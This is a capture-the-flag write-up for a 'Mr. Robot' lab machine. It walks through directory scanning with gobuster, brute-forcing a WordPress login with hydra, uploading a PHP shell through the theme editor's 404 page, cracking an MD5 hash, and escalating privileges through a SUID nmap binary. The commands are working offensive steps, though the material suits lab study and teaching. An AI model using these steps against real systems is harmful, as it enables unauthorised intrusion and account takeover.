

# Mr. Robot

> Nashia Holloway | May 6th, 2020

## Task 2 Hack the Machine

**1. What is key 1?**

There is a `key-1-of-3.txt` file in `robots.txt`. Navigating to it gives us the answer.

**2. What is key 2?**

`gobuster dir -u http://10.10.21.254 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There's a `/wp-login` page for WordPress. We can use hyrda to try and break in. The `fsocity.dic` file round in `robots.txt` will work, expect it's really large. We can pipe all unique lines into another file.

```
sort fsocity.dic | uniq > unique.txt
```

```
hydra -l elliot -P ./unique.txt 10.10.21.254 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

Scanning for WordPress vulnerabilities.



We can upload a php shell where the 404 code is supposed to go. `http://10.10.21.254/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen`

Setting up a listener, then navigating to `/wp-content/themes/twentyfifteen/404.php` we get a shell running as `daemon`. Trying to cat `flag-2-of-3.txt` in `/home/robot` can only be read by a user called "robot". We can read `password.raw-md5`, which gives a MD5 password to crack and switch to the robot user with: `su robot`.

```
find / -user robot -perm -u=s 2>/dev/null
```

Nmap is unusual to have set with SUID. [GTFO bins](https://gtfobins.github.io/gtfobins/nmap/) shows there's an interactive mode that will let us execute shell commands.


